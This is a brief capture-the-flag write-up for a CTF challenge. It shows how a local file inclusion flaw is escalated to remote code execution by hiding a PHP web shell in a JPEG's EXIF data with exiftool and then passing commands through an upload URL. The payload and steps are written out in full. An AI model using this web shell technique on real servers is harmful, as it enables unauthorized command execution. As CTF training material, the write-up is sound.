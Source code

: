 # Write Up

When playing with the website, one notices that the website suffers a LFI as the title suggests. On top of that you are able to upload images and know where these are saved on the server.

To exploit this, you can escalate the LFI into a remote code execution vuln.
To do this you can hide PHP code in the exif section of a JPEG image.
Hiding php code in JPEG:
```
exiftool -DocumentName="<h1>FC3<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" im.jpg
```
Renaming the image:
```
mv im.jpg im.php.jpg
```
Now this image can simply be uploaded and used to execute commands on the server by accessing the following link:
```
http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/<imagename>&cmd=<command>
```
After executing the ***ls*** command, you find out that a flag.php file exists, which can be looked at by executing ***cat flag.php***. The flag can then be seen in burp.
